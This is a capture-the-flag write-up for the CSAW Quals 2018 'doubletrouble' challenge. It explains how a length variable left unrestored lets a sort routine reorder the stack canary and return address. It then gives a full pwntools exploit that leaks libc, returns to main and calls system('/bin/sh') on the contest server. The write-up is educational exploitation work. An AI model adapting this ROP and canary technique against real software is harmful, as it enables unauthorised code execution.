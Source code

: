 ```yaml
---
layout: post
title: CSAW Quals 18 - doubletrouble
categories: ctf_csawquals18
keywords: "exploitation"
comments: true
authors:
    - andreafioraldi
---
```



The core function is the following:

```c
int game()
{
  int v0;
  long double sum;
  long double max;
  long double min;
  int v4;
  int how_long;
  int idx;
  char *s;
  double array[64];
  unsigned int v10;

  canary = __readgsdword(0x14u);
  printf("%p\n", array);  // Stack address leak
  printf("How long: ");
  __isoc99_scanf("%d", &how_long);
  getchar();
  if ( how_long > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  idx = 0;
  while ( idx < how_long )
  {
    s = malloc(100u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = idx++;
    array[v0] = atof(s);
  }
  printArray(&how_long, array);
  sum = sumArray(&how_long, array);
  printf("Sum: %f\n", sum);
  max = maxArray(&how_long, array);
  printf("Max: %f\n", max);
  min = minArray(&how_long, array);
  printf("Min: %f\n", min);
  v4 = findArray(&how_long, array, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", array[v4]);
  sortArray(&how_long, array);
  puts("Sorted Array:");
  return printArray(&how_long, array);
}
```

The programs store the readed doubles in an array on the stack.
The array is 532 bytes from the return address, so 64 entries are not enough for a buffer overflow.

The findArray function is interesting, a correct manipulation of the input can change the how_long variable.

```c
int findArray(int *len, double *arr, double a, double b)
{
  int saved_len;

  saved_len = *len;
  while ( *len < 2 * saved_len )
  {
    if ( arr[*len - saved_len] > a && b > arr[*len - saved_len] )
      return *len - saved_len; // Here *len is not restored to saved_len
    *len += &GLOBAL_OFFSET_TABLE_ - 134529023; //*len += 1
  }
  *len = saved_len; // We want to avoid this piece of code
  return 0;
}
```

Giving a number greater than -10 `*len` is increased and with a number greater than -100 and lower than -10 we can avoid the restring of `*len` with `saved_len`.

We choose -1.1 and -20.1.

With `how_long` greater than 64 the sortArray procedure will sort our input and the values that are on the stack after the array, like the canary and the return address.

The binary addresses casted to double are sorted after -1.1.

To exploit the vulnerability we need to place the canary in the same position before and after the sorting so it must start with 0x00b.
Due to this requirement the exploit must be runned many times to work.

Here the exploit:

```python
#!/usr/bin/env python

from pwn import *

LIBC_NAME = "./libc6_2.27-3ubuntu1_i386.so" # found on libc database using system (0x200)

def pdouble(f):
    return struct.pack('<d', f)

def double_to_hex(f):
    return hex(struct.unpack('<Q', struct.pack('<d', f))[0])

def int_to_double(i):
    return struct.unpack('<d', p64(i))[0]

def hex_to_double(h):
    return struct.unpack('<d', h.decode("hex")[::-1])[0]

libc = ELF(LIBC_NAME)

while True:
    #p = process("./doubletrouble", env={"LD_PRELOAD": LIBC_NAME})
    p = remote("pwn.chal.csaw.io", 9002)

    try:
        
        ### STAGE 1 - leak libc a restart main
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n") #main = 0x8049506
        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n")

        for i in xrange(3):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        off = 0xf7f8bfff - 0xF7DB4000

        libc.address = u32(pdouble(float(p.recvline(False)))[4:]) - off
        if libc.address & 1 == 1:
            libc.address -= 1

        print "LIBC: ", hex(libc.address), hex(libc.symbols["system"])[2:]

        p.recvuntil("68:") + p.recvline(False)
        
        
        ### STAGE 2 - execute system("/bin/sh")
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        v = hex_to_double(("0804900a0804900a")) #0x0804900a : ret
        p.sendafter("Give me: ", repr(v) + "\n")
        
        v = hex_to_double("0804A0D5" + hex(libc.symbols["system"])[2:])
        p.sendafter("Give me: ", repr(v) + "\n")
        
        bin_sh = libc.address + 0x17e0cf
        v = hex_to_double(("09049786" + hex(bin_sh)[2:]))
        p.sendafter("Give me: ", repr(v) + "\n")

        for i in xrange(2):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")
        
        p.interactive()
        p.close()
    except KeyboardInterrupt:
        p.close()
        exit()
    except Exception:
        p.close()
        continue
```







